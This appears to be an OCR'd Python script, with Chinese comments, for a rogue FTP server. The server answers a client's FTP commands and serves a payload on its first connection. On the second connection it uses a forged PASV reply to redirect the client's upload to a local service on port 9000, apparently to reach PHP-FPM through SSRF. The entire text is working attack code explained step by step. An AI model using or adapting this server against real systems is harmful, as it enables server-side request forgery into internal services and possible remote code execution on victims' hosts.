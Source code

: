```python
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```
